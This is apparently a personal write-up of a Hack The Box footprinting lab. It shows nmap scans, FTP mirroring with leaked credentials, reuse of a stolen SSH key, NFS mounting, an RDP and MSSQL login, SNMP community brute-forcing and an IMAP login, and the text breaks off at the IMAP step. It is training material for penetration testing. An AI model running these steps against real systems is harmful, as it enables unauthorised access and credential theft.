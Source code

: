 ```yaml
---
description: Skills Assessment
---
```


# Footprinting Labs

## Footprinting Lab - Easy

### What is given

* company name: **`Inlanefreight Ltd`**
* given server: **`DNS`**
* found credentials: "**`ceil:qwer1234`**"
* admins have stored a "**`flag.txt`**" file on the server, we should obtain its content

### Questions

#### 1. Enumerate the server carefully and find the flag.txt file. Submit the contents of this file as the answer.

**`sudo nmap -sVC 10.129.72.126`**

* 21 ftp - ProFTPD Server (ftp.int.inlanefreight.htb)
* 22 ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
* 53 domain - ISC BIND 9.16.1, dns-nsid: bind.version: 9.16.1-Ubuntu
* 2121 ftp - ProFTPD Server (Ceil's FTP)
* CONCLUSION
  * FTP: 21 is a real FTP server, 2121 is just a proxy to the real one&#x20;
  * SSH: We dont have keys for login, it might be in the FTP server...

dig soa \<IP>

* AUTHORITY SECTION: . 5 IN SOA **`a.root-servers.net`. `nstld.verisign-grs.com`**. 2023091101 1800 900 604800 86400

ssh ceil@10.129.72.126

* "`ceil@10.129.72.126: Permission denied (publickey).`"

ftp 10.129.72.126

* logged in, nothing to be found

**`wget -m --no-passive ftp://ceil:qwer1234@10.129.72.126:2121`**

* downloaded all the FTP files to local machine
* cd 10.129.72.126:2121 -> ls -la (**`.bash_history`**) -> cat **`.bash_history`**
  * `ls -al mkdir ssh cd ssh/ echo "test" > id_rsa id ssh-keygen -t rsa -b 4096 cd .. rm -rf ssh/ ls -al cd .ssh/ cat id_rsa ls a-l ls -al cat id_rsa.pub >> authorized_keys cd .. cd /home cd ceil/ ls -l ls -al mkdir flag cd flag/ touch flag.txt vim flag.txt cat flag.txt ls -al mv flag/flag.txt .`
* cd 10.129.72.126:2121 -> ls -la (**`.ssh`**) -> cd .ssh -> ls -la (**`id_rsa`**)
* **`chmod 600 id_rsa`**
* **`sftp -i id_rsa ceil@10.129.72.126`**
* **`cd ..`**
* **`ls -la`**
* **`cd flag`**
* **`ls`**
* **`get flag.txt`**
* LOCAL machine: **`cat flag.txt`**



## Footprinting Lab - Medium

### What is given

* everyone on the internal network has access to the server
* user named **`HTB`**
* we need to obtain credentials of this user as proof

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.**

**`sudo nmap -sVC 10.129.169.252`**

* 111 rpcbind - version 2-4
* 135 msrpc
* 139 netbios-ssn
* 445 microsoft-ds?
* 2049 mountd 1-3
* 3389 ms-wbt-server - info: WINMEDIUM, Product\_Version: 10.0.17763
* \+ smb host scripts (smb2-security-mode: 311)
* Conclusion:
  * looks like NFS because of rpc

`rpcclient -U "" 10.129.45.189`

* Cannot connect to server. Error was NT\_STATUS\_LOGON\_FAILURE

**`showmount -e 10.129.169.252`**

* ![](<.gitbook/assets/image (12) (1) (1).png>)

`sudo nmap 10.129.169.252 --script nfs* -p111,2049 -sV`

`mkdir target-NFS`

**`sudo mount -t nfs 10.129.169.252:/TechSupport ./target-NFS/ -o nolock`**

cd target-NFS

ls -la => many tickets, but only one with some data

**`cat ticket4238791283782.txt`**

* domain="10.129.2.59:9500"&#x20;
* path=/login
* from="alex.g@web.dev.inlanefreight.htb"
* user="**alex**"
* password="**lol123!mD**"
* port = 25 (SMTP)
* host=smtp.web.dev.inlanefreight.htb

**`remmina`**

* RDP = 10.129.169.252
* username = alex
* password = lol123!mD
* domain = 10.129.2.59:9500

We successfully connected using RDp to alex Windows machine, it contains MSQL Server Management Studio 18, but we dont have access to it...lets find the PW for su user to get access into DB with PW

![](<.gitbook/assets/image (13) (1) (1).png>)![](<.gitbook/assets/image (14) (1) (1).png>)

Searching the alex Windows machine -> c:/users/alex/devshare/important.txt => **`sa:87N1ns@slls83`**

* login doesnt work
* RUN MSSQLServer as ADMIN with found PW (87N1...)
  * we are in the DB
  * New Query -> **`select * from accounts.dbo.devsacc where name = ‘htb’;`**
  * ![](<.gitbook/assets/image (15).png>)



## Footprinting Lab - Hard

### What is given

* MX and management server for the internal network
* server has the function of a backup server for the internal accounts in domain
* user named **`HTB`**

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit HTB's password as the answer.**

**`sudo nmap -sVC 10.129.251.207`**

* 22 SSH
* 110 POP3 - Dovecot pop3d
* 143 IMAP - Dovecot imapd (Ubuntu)
* 993 IMAPS?
* 995 POP3S?
* CONCLUSION -> looks like we wanna use what we learned from IMAP/POP3 module...

**`openssl s_client -connect 10.129.251.207:pop3s`**

**`onesixtyone -c /usr/share/SecLists/Discovery/SNMP/snmp.txt 10.129.251.207`**

\=> ![](<.gitbook/assets/image (14) (1).png>)

\=> we obtained the hostname \[XXX], lets dive deeper

**`braa XXX@10.129.251.207:.1.3.6.*`**

\=> ![](<.gitbook/assets/image (1) (1) (1) (1) (1).png>)![](<.gitbook/assets/image (2) (1) (1) (1).png>)

\=> we obtained the credentials of a user "tom" - lets try these

**`curl -k 'imaps://10.129.251.207' –user XXX:XXX -v`**

**`1 SELECT INBOX`**



